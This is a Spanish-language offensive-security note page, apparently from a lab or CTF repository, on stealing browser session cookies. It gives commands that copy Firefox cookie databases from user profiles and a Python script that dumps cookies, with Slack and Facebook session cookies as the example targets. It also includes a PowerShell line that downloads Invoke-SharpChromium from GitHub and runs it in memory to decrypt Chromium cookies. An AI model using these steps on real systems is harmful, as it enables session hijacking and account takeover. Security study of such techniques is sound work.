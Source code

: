 # Cookie Extraction

## Firefox
- En windows: `copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .`
- En ubuntu: `cp ~/.mozilla/firefox/*.default-release/cookies.sqlite .`
- En mac os: `cp ~/Library/Application\ Support/Firefox/Profiles/*.default-release/cookies.sqlite .`


```python
#!/usr/bin/env python3
# Sample Script to extract cookies offile from FireFox sqlite database 
# Created by PlainText 

import argparse
import sqlite3

def main(dbpath, host, cookie):
	conn = sqlite3.connect(dbpath)
	cursor = conn.cursor()

	if (host == "" and cookie == ""):
		query = "SELECT * FROM moz_cookies"
	elif (host != "" and cookie == ""):
		query = "SELECT * FROM moz_cookies WHERE host LIKE '%{}%'".format(host)
	elif (host == "" and cookie != ""):
		query = "SELECT * FROM moz_cookies WHERE name LIKE '%{}%'".format(cookie)
	elif (host != "" and cookie != ""):
		query = "SELECT * FROM moz_cookies WHERE name LIKE '%{}%' AND host LIKE '%{}%'".format(cookie, host)

	cursor.execute(query)
	records = cursor.fetchall()
	rowCount = len(records) 

	if (rowCount > 0):
		for row in records:
			print(row)
	else:
		print("[-] No cookie found with the selected options.")

	conn.close()

if __name__ == "__main__":
	parser = argparse.ArgumentParser()
	parser.add_argument("--dbpath", "-d", required=True, help="The path to the sqlite cookies database")
	parser.add_argument("--host", "-o", required=False, help="The host for the cookie", default="")
	parser.add_argument("--cookie", "-c", required=False, help="The name of the cookie", default="")
	args = parser.parse_args()
	main(args.dbpath, args.host, args.cookie)
``` 

### Ejemplo de extracción de cookies
- Ejemplo con slack:
    - `$ python3 cookieextractor.py --dbpath /home/kali/Desktop/htb/cookies.sqlite --host slack --cookie d`
- Ejemplo con facebook:
    - `$ python3 cookieextractor.py --dbpath /home/kali/Desktop/htb/cookies.sqlite --host facebook --cookie c_user`
- Ejemplo con todas las cookies:
    - `$ python3 cookieextractor.py --dbpath /home/kali/Desktop/htb/cookies.sqlite`

## Chromium-based browsers
- La diferencia entre firefox y chromium es que los valores de las cookies en chromium están encriptados.
- Para conseguir los valores podemos utilizar SharpChromium
    - [SharpChromium](https://github.com/djhohnstein/SharpChromium)
    - También existe una versión de powershell de este proyecto [Invoke-SharpChromium](https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1)
    - `IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSh
arpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')`
    - `Invoke-SharpChromium -Command "cookies slack.com"`
    - otro ejemplo: `Invoke-SharpChromium -Command "cookies facebook.com"`
- **Para compilar el proyecto se necesita visual studio IDE + .NET instalado, CTRL + SHIFT + B para compilar**
- En la carpeta del proyecto /bin/Debug se encuentra el ejecutable.